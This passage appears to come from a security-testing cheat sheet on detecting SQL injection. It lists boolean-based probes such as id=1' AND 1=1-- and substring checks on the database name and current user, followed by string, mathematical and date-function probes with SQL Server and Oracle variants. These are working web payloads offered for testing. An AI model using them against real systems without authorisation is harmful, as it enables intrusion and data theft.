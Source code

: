 **Boolean-Based Detection**
```sql
-- True condition (normal response expected)
id=1' AND 1=1--

-- False condition (different response expected)  
id=1' AND 1=2--

-- Substring testing
id=1' AND SUBSTRING(database(),1,1)='a'--
```

## Additional Methods to Detect SQL Injection

### Function Testing

Systematic testing of database functions to identify injection points and database capabilities.

#### Database Function Categories

**String Functions**
```sql
-- Length functions
' AND LENGTH(database())>0--
' AND LEN(USER_NAME())>0--  (SQL Server)

-- Substring functions
' AND SUBSTRING(user(),1,4)='root'--
' AND LEFT(@@version,6)='5.7.21'--

-- Concatenation functions
' AND CONCAT(user(),':',database())--
' AND user()+'|'+database()--  (SQL Server)
```

**Mathematical Functions**
```sql
-- Arithmetic operations
' AND 1+1=2--
' AND MOD(1,2)=1--
' AND POWER(2,3)=8--

-- Random functions
' AND RAND()>=0--
' AND ABS(-1)=1--
```

**Date/Time Functions**
```sql
-- Current timestamp
' AND NOW()>0--
' AND GETDATE()>0--  (SQL Server)
' AND SYSDATE>0--    (Oracle)

-- Date arithmetic
' AND YEAR(NOW())=2024--
' AND DATEPART(year,GETDATE())=2024--  (SQL Server)
```
